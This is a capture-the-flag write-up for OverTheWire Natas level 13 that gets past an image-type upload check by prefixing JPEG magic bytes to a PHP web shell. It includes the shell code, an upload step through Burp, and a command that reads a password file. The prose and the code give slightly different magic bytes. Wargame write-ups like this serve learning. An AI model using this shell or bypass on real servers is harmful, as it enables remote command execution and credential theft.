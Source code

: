 ```yaml
---
layout: post
title:  "Natas Level 13 → Level 14"
date: 2017-07-05
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas13 application using the credentials provided above.

The application looks very similar to the previous level, however, the application this time around is checking for the filetype with the **exif_imagetype** function. According to the PHP [manual](http://php.net/manual/en/function.exif-imagetype.php), the exif_imagetype function determines the type of an image by reading the first bytes of an image and checking its signature.

As the function relies on the first bytes of image and checking its signature, if we can create a file and use the same **magic numbers** that the function is expecting, we should be able to bypass the check. A quick Wikipedia [search](https://en.wikipedia.org/wiki/List_of_file_signatures) yields **0xFF 0xD8 0xFF 0xE8** as the magic. Therefore, we create a new php file with the magic numbers in the beginning. I used python to create the following shell file. Apart from the first 4 bytes, the rest of the file is exactly the same as before.

```
  >> shell=open('shell.php','w')
  >>> shell.write('\xFF\xD8\xFF\xE0' + '<?php $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; ?>')
  >>> shell.close()
```

Once again, we upload this php file by intercepting the request in Burp and changing the name of the file with a .php extension. Navigate to the URL generated by the application and append **?cmd=cat%20/etc/natas_webpass/natas14** and the application prints the password for the next level.
<pre><h3><b>Level 14
Username : natas14
Password : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL      : http://natas14.natas.labs.overthewire.org</b></h3></pre>
